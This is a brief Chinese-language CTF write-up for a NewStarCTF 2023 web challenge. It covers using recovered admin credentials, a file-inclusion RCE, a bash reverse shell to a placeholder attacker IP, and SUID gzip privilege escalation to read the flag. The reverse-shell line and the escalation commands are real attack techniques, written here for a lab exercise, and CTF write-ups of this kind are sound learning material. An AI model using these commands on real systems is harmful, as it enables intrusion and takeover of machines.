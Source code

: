 ```yaml
---
title: NewStarCTF2023 week5 web 4-复盘
date: 2023-11-2 16:17 +0800
categories: [CTF,WEB]
tags: [web]
media_subpath: /
---
```




通过第三周流量分析题和题目给的源代码得到

best_admin
so_hard_password

和主页存在文件包含rce漏洞

![image-20231102160836752](assets/image-20231102160836752.png)‘



和newstar 之前两道题目一模一样，一步的lfl+rce 和 linux 提权

![image-20231102160937766](assets/image-20231102160937766.png)



这个靶机有点问题，哥斯拉不是很好用，我们反弹shell到 公网服务器上

```
bash -i >& /dev/tcp/攻击机IP/端口 0>&1
```

**![image-20231102161238097](assets/image-20231102161238097.png)**

老套路，只能root权限才能查看flag文件，提权

还是查看suid位

![image-20231102161400877](assets/image-20231102161400877.png)

gzip 查看flag

```
sudo install -m =xs $(which gzip) .

LFILE=file_to_read
./gzip -f $LFILE -t
```



![image-20231102161124753](assets/image-20231102161124753.png)

成功解出

![image-20231102161515150](assets/image-20231102161515150.png)